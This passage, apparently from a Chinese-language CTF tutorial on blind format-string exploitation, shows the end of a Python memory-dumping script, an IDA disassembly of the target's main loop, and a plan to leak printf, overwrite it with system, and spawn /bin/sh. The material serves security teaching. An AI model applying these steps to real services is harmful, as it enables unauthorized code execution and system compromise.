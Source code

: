 ```python
		if data is None:
			f.write('\xff')
			addr += 1
		elif len(data) == 0:
			f.write('\x00')
			addr += 1
		else:
			f.write(data)
			addr += len(data)
	f.close()
getbinary()
```

需要注意的是，在 payload 中需要判断是否有 '\n' 出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

#### 分析binary

利用 IDA 打开泄露的 binary ，改变程序基地址，然后简单看看，可以基本确定源程序 main 函数的地址

```asm
seg000:00000000004005F6                 push    rbp
seg000:00000000004005F7                 mov     rbp, rsp
seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
seg000:00000000004005FE
seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
seg000:00000000004005FE                 lea     rax, [rbp-80h]
seg000:0000000000400602                 mov     edx, 80h ; '€'
seg000:0000000000400607                 mov     rsi, rax
seg000:000000000040060A                 mov     edi, 0
seg000:000000000040060F                 mov     eax, 0
seg000:0000000000400614                 call    sub_4004C0
seg000:0000000000400619                 lea     rax, [rbp-80h]
seg000:000000000040061D                 mov     rdi, rax
seg000:0000000000400620                 mov     eax, 0
seg000:0000000000400625                 call    sub_4004B0
seg000:000000000040062A                 mov     rax, cs:601048h
seg000:0000000000400631                 mov     rdi, rax
seg000:0000000000400634                 call    near ptr unk_4004E0
seg000:0000000000400639                 jmp     short loc_4005FE
```

可以基本确定的是 sub\_4004C0 为 read 函数，因为读入函数一共有三个参数的话，基本就是 read 了。此外，下面调用的 sub\_4004B0 应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个 while 1 的循环，一直在执行。

#### 利用思路

分析完上面的之后，我们可以确定如下基本思路

- 泄露 printf 函数的地址，
- 获取对应 libc 以及 system 函数地址
- 修改 printf 地址为 system 函数地址
- 读入 /bin/sh; 以便于获取 shell
